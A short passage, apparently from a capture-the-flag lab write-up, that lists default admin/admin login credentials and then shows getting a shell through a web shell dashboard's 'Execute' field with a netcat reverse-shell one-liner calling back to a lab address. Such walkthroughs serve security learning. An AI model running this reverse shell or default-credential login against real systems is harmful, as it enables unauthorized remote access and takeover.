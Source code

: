 ![](Traceback/smevkcode.png)

|  User | Password |
|:-----:|:--------:|
| admin |   admin  |

### Getting a shell

After we login, we are presented with the web shell dashboard, we can use the "Execute: " field, to run a reverse shell.

``` bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 1234 >/tmp/f
```